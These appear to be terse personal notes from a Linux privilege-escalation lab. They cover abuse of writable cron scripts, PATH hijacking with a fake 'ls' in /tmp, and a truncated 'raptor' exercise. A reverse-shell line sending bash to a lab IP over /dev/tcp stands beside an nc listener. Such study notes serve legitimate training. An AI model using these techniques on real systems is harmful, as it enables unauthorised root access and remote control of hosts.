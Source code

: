 cron jobs file permission


cat /etc/crontab

locate <file>

ls -l <file>


make file, 

#!/bin/bash
bash -i >& /dev/tcp/10.6.65.43/4444 0>&1

start listner,
nc -lvnp 4444











### 2. $PATH   variable


echo $PATH

create file in tmp

echo "[whatever command we want to run]" > [name of the executable we're imitating] 

```echo "/bin/bash" > ls```


make it executable

```chmod +X ls```

or 

```chmod 777 ls```


change the path variable

```export PATH=/tmp/:$PATH```


go back to diretory of binary and run again












### 3. raptor practise


```
id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```
```